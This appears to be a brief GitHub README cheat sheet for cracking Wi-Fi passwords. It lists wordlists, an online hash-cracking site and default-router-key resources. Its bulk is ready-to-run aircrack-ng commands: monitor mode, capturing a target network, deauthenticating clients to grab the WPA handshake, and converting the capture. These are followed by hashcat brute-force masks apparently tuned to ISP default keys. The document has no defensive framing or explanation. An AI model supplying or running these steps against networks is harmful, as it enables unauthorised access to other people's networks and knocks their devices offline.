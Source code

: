 # WIFI password pentesting

### wordlists
* [kaonashi-passwords](https://github.com/kaonashi-passwords/Kaonashi)
* [profanity-words](https://github.com/RobertJGabriel/Google-profanity-words)

### links
* [Online hashcrack](http://www.onlinehashcrack.com/89edec5249)
* [Default router keys](https://forum.hashkiller.co.uk/topic-view.aspx?t=2715)

### kali
```bash
airmon-ng check kill
airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng —bssid 00:11:22:33:44:55 —channel 1 —write dump wlan0mon
aireplay-ng —deauth 10 -a 00:11:22:33:44:55 [-c 66:77:88:99:AA:BB] wlan0mon
wpaclean cleandump.cap dump.cap
aircrack-ng -J clean.hccap cleandump.cap
cudahashcat xxxxxxx
```

### hashcat
```bash
hashcat -m 2500 girasole.hccap ./rockme.txt
hashcat -m 2500 -a 3 girasole.hccap hima?l?l?l?l
hashcat -m 2500 -a3 virginmedia7.hccap —pw-min=8 -1 abcdefghjklmnpqrstuvwxyz a?1?1?1?1?1?1?1
hashcat -m 2500 -a3 virginmedia7.hccap —pw-min=8 -1 abcdefghjklmnpqrstuvwxyz b?1?1?1?1?1?1?1
hashcat -m 2500 -a3 virginmedia7.hccap —pw-min=8 -1 abcdefghjklmnpqrstuvwxyz c?1?1?1?1?1?1?1
```

### old videos
* [WEP](https://youtu.be/RydsjNhUjdg)
* [WPA](https://youtu.be/kpI3fQjf43E)
* [WPS](https://youtu.be/knllpZF508k)
